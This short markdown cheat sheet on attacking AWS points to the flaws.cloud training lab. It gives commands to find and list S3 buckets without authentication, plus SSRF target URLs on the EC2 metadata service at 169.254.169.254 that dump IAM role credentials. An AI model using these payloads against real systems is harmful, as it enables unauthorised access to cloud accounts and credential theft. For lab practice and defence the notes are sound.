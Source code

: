 AWS
===

## Check if domain is on a bucket
```bash
$ dig +nocmd flaws.cloud any +multiline +noall +answer
```

## List a bucket
```bash
$ aws s3 ls  s3://flaws.cloud/ --no-sign-request --region us-west-2
```

## Ressources
http://flaws.cloud/

## SSRF on AWS to get credentials
On AWS there is a metadata server that can be accessed through the REST API located at: `http://169.254.169.254`. Sending a GET requests to the following endpoint will dump a list of roles that are attaches to the current EC2 instance.

```
http://169.254.169.254/latest/meta-data/iam/security-credentials/
http://169.254.169.254/latest/meta-data/iam/security-credentials/<role_name>
```
